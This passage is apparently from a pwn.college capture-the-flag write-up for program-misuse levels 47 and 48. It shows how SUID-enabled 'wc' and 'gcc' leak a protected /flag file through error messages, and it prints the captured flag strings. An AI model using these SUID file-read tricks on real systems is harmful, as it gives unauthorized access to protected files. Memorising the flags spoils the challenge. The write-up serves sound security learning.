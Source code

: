 We can use the `--files0-from` option such that the flag is printed out in the error message.

```
hacker@program-misuse~level47:/$ wc --files0-from=/flag
wc: 'pwn.college{QbLYiqiNpJDh7KI3YvvaTqt1r7X.0VO4EDL4ITM0EzW}'$'\n': No such file or directory
```

&nbsp;

## level 48

```
hacker@program-misuse~level48:/$ /challenge/babysuid_level48 
Welcome to /challenge/babysuid_level48!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/gcc.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level48) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/gcc!
```

The `gcc` utility is used for preprocessing, compilation, assembly and linking files.

Let us write a simple C script.

```c
#include </flag>

int main {
	puts("Hello");
}
```

Since we are including `/flag`, which we do not have access to the compilation is going to result in an error. However, within the error messages, we can read the flag.

```
hacker@program-misuse~level48:~$ gcc -L / babysuid48.c
In file included from babysuid48.c:1:
/flag:1:4: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘.’ token
    1 | pwn.college{koBPlBAFGwgpjWl16bcloin4uZA.0FM5EDL4ITM0EzW}
      |    ^
/flag:1:40: error: invalid suffix "FM5EDL4ITM0EzW" on floating constant
    1 | pwn.college{koBPlBAFGwgpjWl16bcloin4uZA.0FM5EDL4ITM0EzW}
      |                                        ^~~~~~~~~~~~~~~~
babysuid48.c:3:10: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘{’ token
    3 | int main {
      |  
```

&nbsp;

## level 49
